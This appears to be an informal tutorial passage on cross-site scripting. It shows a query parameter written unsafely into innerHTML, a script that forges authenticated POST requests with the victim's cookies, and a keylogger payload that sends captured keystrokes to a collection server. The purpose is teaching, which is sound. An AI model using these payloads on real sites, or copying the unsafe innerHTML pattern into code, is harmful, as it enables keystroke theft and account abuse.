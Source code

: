**Lets check more examples:**

#### Unauthorised Activities:
<hr>

Taking unauth access and doing something on behalf of YOU.

```js
<script>
    function Post(title,description){
        var xhr=new XMLHttpRequest();
        xhr.open("POST",'/post',true);
        console.log(document.cookie);
        xhr.withCredentials=true;
        xhr.setRequestHeader(
            "Content-type",
            "application/x-www-form-urlencoded"
        );
        xhr.send(`txtname=${title} & msg=${description}`);
    }
</script>
```

This will goin to create a post request on your own application and just send the request. how this will create a problem??


```js

<script>
    const param=new URLSearchParams(window.location.search);
    const name=param.get('name');
    document.getElementById('username').innerHTML=name;
</script>

```

suppose from query param above we having. suppose i have written a code or query param in such a way that i'll trigger the method post with some title or some params then it'll again thread to the security.

and bro the request is goin on behalf of you so there is no cross origin so function post will be sucessfully getting executed so it will be havoc.

#### Capturing Keystrokes:
<hr>

If maliciously I passed below script as a query param then that script will execute in back and it'll capture each and every keystroke of user.

```js
<script>
    var timeout;
    var buffer="";
    document.querySelector('body').addEventListener('keypress',
    function(event){
        if(event.which!==0){
            clearTimeout(timeout);
            buffer+=String.fromCharCode(event.which);
            timeout=setTimeout(function(){
                var xhr=new XMLHttpRequest();
                var uri='http://localhost:5500/keys?data='+encodeURIComponent(buffer);
                xhr.open('GET',uri);
                xhr.send();
                buffer= '';
            },400)
        }
    })
</script>
```